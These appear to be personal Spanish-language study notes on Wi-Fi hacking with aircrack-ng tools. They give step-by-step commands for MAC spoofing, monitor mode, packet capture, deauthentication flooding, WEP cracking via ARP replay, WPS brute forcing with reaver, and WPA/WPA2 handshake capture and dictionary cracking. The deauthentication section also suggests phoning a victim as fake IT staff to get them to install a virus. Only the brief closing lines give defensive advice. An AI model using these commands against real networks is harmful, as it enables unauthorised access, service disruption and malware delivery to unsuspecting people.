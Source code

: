 ifconfig: lista todos los adaptadores conectados al pc
iwconfig: lista solo wirales interfaces 

MAC Address: asigned by manufactures se usan para edentificar pcs en el network y que la informacion se transmita del mac destinatario al mac destino
cambiar el mac adres te permite ser anonimo en la network o bypass filters para que parezcamos otro pc en la network

ponemos ifconfig el parametro ether indica el mac del adaptador

para cambiar el mac del adaptador wifi:
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
(cuando reiniciamos el ordenador el mac volvera a ser el mismo si vuelve a ser el mismo antes de reiniciar el porque el administrador de la red 
a reiniciado las direciones mac de la red)

Manage Mode captura archivos que tengan como mac de destino el pc
Monitor Mode captura todos los archivosen el aire

cambiar adaptador a monitor mode:
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up

si no funciona el metodo alternativo:
ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
ifconfig wlan0mon up

Packet Sniffing Basics
airodump-ng mon0
for 5ghz
airodump-ng --band a mon0
for 5ghz and 2.4
airodump-ng --band abg mon0


BSSID: MAC de la red
PWD: Mayor numero mejor señal
Beacons: Frames que envia la red y indican que la red existe
Data: Paquetes que luego usaremos
S: Numero de paquetes capturados en los ultimos 10 segundos
CH: Canal de la red
MB: Velocidad maxima de la red
ENC: Encriptacion de la red
ESSID: Nombres de las redes


Target Packet Sniffing
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0

en la parte extendida de informacion tenemos todos los dispositivos conectados a la red
BSSID: MAC de la red
Sation: Mac de dispositivos de la red
PWR: Calidad de señal de los dispositivos
Rate: Velocidad de conexion
Lost: Informacion perdida
FRAMES: Numero de paquetes capturados
PROBE: Si el dispositovo esta buscando redes para conectarse

en el directorio principal tendremos varios archivos con la extencion -01 el principal que vamos a usar es el .cap 
que tiene que contener todos los datos enviados desde y hacia la red deve contener urls paswords y users pero esta encriptada
podemos abrir el archivo .cap en wireshark

Deauthentication Attack:
Vamos a pretender que somos el cliente cambiando nuestro mac a este y enviar al ruter la señal de desconexion y lo mismo con el cliente
aireplay-ng --deauth 10000000 -a (BSSID) -c (STATION) mon0
en algunos casos este comando no funcionara a menos que estemos usando airodump-ng contra la red objetivo
pra eso lanzamos el sigiente comando en la terminal de al lado
airodump-ng --bssid (BSSID) --channel (Nº) mon0
podemos por ejemplo llamar al usuario y decirle que somos del departamento it y convencerles de que instalen un virus

WEP Cracking:
Initialization Vector (IV) + Key (Wifi Pasword) = Keystream
Keystream + Data = Encripted data que se envia al ruter con el IV adjuntado para que el ruter la decodifique
Los IV se repetiran porque solo son en 24bits al capturar varios IV repetidos podemos decodificar la Contraseña de la red
1. airodump-ng capturamos una gran cantidad de paquete IV
2. aircrack-ng analizamos y crackeamos la contraseña
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
aircrack-ng (.cap file name)

Key Found (41:41:41:41:41)
reiniciamos kali quitamos los : para obtener 4141414141 y nos conectamos a la red con esta contraseña
o usamos el ASCII como contraseña si obtenemos esta

Si la red WEP al escanear vemos que DATA tiene pocos paquetes
tendremos que forzar la punto de aceso para que genere nuevos IV
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
en la ventana del al lado mientra este comando este coriendo
ifconfig
aireplay-ng --fakeauth 0 -a (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0
de esta forma apareceremos como dispositivo asociado a la red
ahora empezamos a inllectar paquetes en la red y esperamos los paquetes ARP el ruter se vera forzado a generar nuevos paquetes con IVs
en la ventana de al lado coremos
aireplay-ng --arpreplay -b (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0
nos volvemos a asociar a la red por si acaso y coremos
aircrack-ng (.cap file)

WPS Crack 
solo funciona si el ruter no tiene protecion PBC push button autentification
wash --interface mon0
Lck: muestra si el wps esta bloqueado porque despues de unos intentos se bloquea
reaver --bssid (BSSID) --channel (Nº) --interface mon0 -vvv --no-associate
si obtenemos error es que nesecitamos usar una vercion anterior de reaver porque esta no funciona bien
descargamos la vercion recomendada chmod +x reaver y ./reaver --bssid (BSSID) --channel (Nº) --interface mon0 -vvv --no-associate
mientras rever intenta brutforce la red coremos el sigiente comando en la terminal de aldo para que el ruter no nos ignore
ifconfig
aireplay-ng --fakeauth 30(nos asociamos cada 30 segundos) -a (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0

WPA / WPA2 Cracking
solo los handshakes tienen informacion util
captura de handshakes:
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
en la terminal de al lado
aireplay-ng --deauth 4 -a (BSSID) -c (STATION) mon0
en la ventana de ariba a la derecha veremos el handshake

Creating a Wordlist
man crunch
crunch [min character number] [max character number] [Characters] -o [filename] -t [pattern]
crunch 6 8 123abc@$ -o wordlist -t a@@@@b

CRACK HANDSHAKE (Comparamos MIC)
aircrack-ng (.cap file) -w (worldlist .txt)

Hay empresas online donde puedes subir el handshake y ellos te lo analizan

conclucion:
no usar wep
usar wpa2 con contraseñas complejas
asegurar que wps esta desabilitado

obtenemos la ip del ordenador ifconfig wlan0 vamos a la ip 1 de la subnet para entrar en la pagina del router
si nos atacan con deautentificacion nos podemos conectar con el cable
Access Control podemos especificar que mac permitimos conectar a la red y cuales no

